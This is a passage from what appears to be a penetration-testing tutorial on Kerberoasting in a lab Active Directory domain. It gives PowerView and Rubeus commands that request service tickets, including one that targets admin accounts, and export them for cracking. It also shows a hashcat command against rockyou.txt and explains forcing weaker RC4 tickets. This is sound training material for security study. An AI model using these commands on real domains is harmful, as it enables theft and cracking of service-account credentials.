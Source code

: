 #### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Viewing the Contents of the .CSV File

```powershell
cat .\ilfreight_tgs.csv
```

## Using Rubeus

### Using the /stats Flag

```powershell
.\Rubeus.exe kerberoast /stats
```

### Using the /nowrap Flag

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

## A Note on Encryption Types

For AES, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table. We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.

```shell
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

> [!NOTE]
> Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.
